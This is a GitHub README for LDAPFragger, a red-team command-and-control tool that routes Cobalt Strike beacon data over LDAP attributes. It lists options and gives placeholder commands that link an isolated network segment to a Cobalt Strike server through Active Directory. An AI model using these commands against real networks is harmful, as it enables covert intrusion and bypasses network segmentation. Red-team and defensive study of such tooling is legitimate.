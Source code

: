 # LDAPFragger

LDAPFragger is a Command and Control tool that enables attackers to route Cobalt Strike beacon data over LDAP using user attributes.

For background information, read the release blog: http://blog.fox-it.com/2020/03/19/ldapfragger-command-and-control-over-ldap-attributes


## Dependencies and installation
* Compiled with `.NET 4.0`, but may work with older and newer .NET frameworks as well

## Usage

```
 _     _              __
| |   | |            / _|
| | __| | __ _ _ __ | |_ _ __ __ _  __ _  __ _  ___ _ __
| |/ _` |/ _` | '_ \|  _| '__/ _` |/ _` |/ _` |/ _ \ '__|
| | (_| | (_| | |_) | | | | | (_| | (_| | (_| |  __/ |
|_|\__,_|\__,_| .__/|_| |_|  \__,_|\__, |\__, |\___|_|
              | |                   __/ | __/ |
              |_|                  |___/ |___/

Fox-IT - Rindert Kramer

Usage:
     --cshost:  IP address or hostname of the Cobalt Strike instance
     --csport:  Port of the external C2 interface on the Cobalt Strike server
     -u:        Username to connect to Active Directory
     -p:        Password to connect to Active Directory
     -d:        FQDN of the Active Directory domain
     --ldaps:   Use LDAPS instead of LDAP
     -v:        Verbose output
     -h:        Display  this message

If no AD credentials are provided, integrated AD authentication will be used.
```

Example usage:

![](https://foxitsecurity.files.wordpress.com/2020/03/9.png?w=607) 


From network segment A, run
```
LDAPFragger --cshost <Cobalt Strike IP> --csport <External listener port>

LDAPFragger --cshost <Cobalt Strike IP> --csport <External listener port> -u <username> -p <password> -d <domain FQDN>
```

From network segment B, run
```
LDAPFragger 

LDAPFragger -u <username> -p <password> -d <domain FQDN>
```


LDAPS can be used with the `--LDAPS` flag, however, regular LDAP traffic is encrypted as well. Please do note that the default Cobalt Strike payload will get caught by most AVs.



